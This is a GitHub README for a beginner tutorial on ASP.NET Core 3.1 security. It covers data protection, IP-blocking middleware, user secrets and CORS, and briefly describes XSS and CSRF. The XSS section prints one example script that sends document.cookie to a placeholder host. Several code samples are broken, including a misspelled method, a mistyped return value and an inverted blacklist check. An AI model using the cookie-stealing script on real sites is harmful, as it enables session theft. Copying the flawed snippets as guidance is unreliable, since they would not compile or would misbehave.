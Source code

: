 <p align="center">
  <a href="https://github.com/ikbalkazanc">
    <img src="https://github.com/ikbalkazanc/Asp.NetCore-Security/blob/master/unnamed.png" alt="Logo" width="420" height="140">
  </a>

  <h3 align="center">Asp.Net Core 3.1 Basic Attacks and Solutions</h3>
  <p align="center">
    This repository explain simple but effective attacks through examples. Asp.Net can resolving many problem. <br/> We need to do just let it.
    <br />
    <br />
  </p>
</p>

* [Security Precautions](#security-precautions)
  * [Data Protection](#data-protection)
  * [IP Control](#ip-control)
  * [Secret Protection](#secret-protection)
  * [CORS](#cors-cross-origin-resource-sharing)
* [Attacks](#usage)
  * [XSS](#xss)
    * [Reflected](#reflected)
    * [Stored](#stored)
    * [Dom](#domdocument-object-model)
  * [CSRF](#csrfcross-site-request-forgery)
  * [Open Redirect Attacks](#installation)
  * [SQL Injection](#installation)
# Security Precautions
## Data Protection
Not need "TATAVA". in sum, Valuable data are require hide. Therefore we will encrypt data. Thus datas are store as encrypted for memory or cookies in client side.
```
www.domain.com/products/77
www.domain.com/products/PIjlIX2rVMPEsXyZ9rvhQJdJDxXRr5zyt_hiDhRRlBmtLo1npprgm2CMnQRcBWylcVWq8fjvwyngsfad
````

We will use `Microsoft.AspNetCore.DataProtection`. Have require two things us. Top secret key and (`IDataProtector`) dependency injection in controller. Key thinkable like door key. Key is require for opening door.
```csharp
private readonly IDataProtector _dataProtector;

public ProductController(IDataProtectionProvider provider)
{
  _dataProtector = provider.CreateProtector("private_key_for_example_can_be_ProductController");            
}
````
And we can define encrypter in action input and output. I'm fondle .Net Core's eye. it is just that easy.  
```csharp
public IActionResult Index()
{
  int userId = 1001;
  int encrypUserId = _dataProtector.Protect(userId);
  return View(encrypUserId);
}
````
```csharp
public IActionResult Index(string encryptedId)
{
  int userPassword = Int32.Parse(_dataProtector.Unrotect(userPassword));
  return View();
}
````
<bold>Note :</bold> Above all must add `services.AddDataProtection()` in `Startup.cs` services. Also all of these can be as middleware.

## IP Control
IP control provide to define blacklist or whitelist for IPs. We will manegement IP lists. Thus we can block malicious. We will code as middleware level in this sample. Therefore we need to define `RequestDelegate` in dependency injections.   
```csharp
private readonly RequestDelegate _next;
private readonly string[] _ipBlackList = {"127.0.0.1", "::1"};
  
public IPSafeMiddleWare(RequestDelegate next)
{
  _next = next;
}
```
And coding `Invoke()` method. This method provide coding middleware to us. Required request context for method. And we check that it is in blacklist.
```csharp
public async Task Invoke(HttpContext context)
{
  var requestIpAdress = context.Connection.RemoteIpAddress;
  var isWhiteList = _ipBlackList.Where(x => IPAddress.Parse(x).Equals(requestIpAdress)).Any();
  if (!isWhiteList)
  {
    context.Response.StatusCode = (int) HttpStatusCode.Forbidden;
    return;
  }           
  await _next(context);
 }
```
Last all we need to do let know middleware to asp.net. We define `IPSafeMiddleware` in `Startup.cs` `Configure` method. And finished.
```csharp
app.UseMiddleware<IPSafeMiddleWare>();
```
Actually you can do this checking process as filter too. Thus you can checking ip in controller level or action level. Maybe this can improve performance.  
## Secret Protection
Normally we are recording connection string to `appsettings.json`. But datas not be in safe there. Asp.Net Core is avert this situation. it's providing top secret file for top secret data. Thanks Bill Doors 🙏. <br/>
<div align="center">
<img src="https://github.com/ikbalkazanc/Asp.NetCore-Security/blob/master/resim_2020-11-23_022355.png" alt="Logo" width="360" height="120">
  </div>
<br/>

We can access by right click web project file then choice `Manage Users Secrets` so to top secret file. Now, We can write secret contexts inside of `appsettings.json` to this json file. Asp.NET Core add `secrets.json` inside to `appsettings.json` in compile time. Thinkable like one file.   

## CORS (Cross-Origin Resource Sharing)
in sum, Permission is required to pass through CORS. in conclusion not its dad's farm. We need to a policy key for permission. We can define CORS in `Startup.cs` services. Then require add inside middleware layer like this `app.UseCors("AllowSites");`. 
````csharp
public void ConfigureServices(IServiceCollection services)
{
  services.AddCors(options =>
  {   
    //allow all domains            
    options.AddDefaultPolicy(builder =>
    {
      builder.AllowAnyOrigin().AllowAnyHeader().AllowAnyMethod();
    }); 
    
    //allow spesific domains
    options.AddPolicy("AllowSites", builder =>
    {
      builder.WithOrigins("https://localhost:44355", "https://anywebsites.com", "etc.")
      .AllowAnyHeader().AllowAnyMethod();
    });
  });
}
````
Also we can define more specific rules. I tried explain in project file. You can examine.

# Attacks
## XSS
This is a kind of script vulnerability. Done by integrate harmful script in our HTML and JS files. There are 3 ways. But we can apply same solution all of them. Net Core provide solution as default. Again thanks great dot net. Not need to define in `Startup.cs` file. if we want we can disable it.
```
<script> new Image().\"http://example.com/readCookie/?account=\"+document.cookie\"</script>
```
as example, when this script integrated to our js codes it's send to own "domain". that's very simple process but so effective. XSS attacks are one of the most common forms of Web Attacks, and this type of attack accounts for 12.75% of all web attacks.
### Reflected
Hacker is integrate scripts to browser in client side. Nevertheless we can block this scripts. He's can access a user data.
### Stored
Hacker is integrate scripts to source code in server side. it's so dangerous. Hacker can access all users data.  
### Dom(Document Object Model)
This way genrally weld up from trying to payload after # sign.
## CSRF(Cross Site Request Forgery)
<a href="https://github.com/ikbalkazanc">
    <img src="https://github.com/ikbalkazanc/Asp.NetCore-Security/blob/master/cross_site_request_forger_1.png.jpg" alt="Logo" width="200%" height="140" ">
  </a>

<!-- CONTACT -->
## Contact
Muhammet İkbal KAZANCI - [LinkedIn](https://www.linkedin.com/in/ikbalkazanc/) - mi.kazanci@hotmail.com

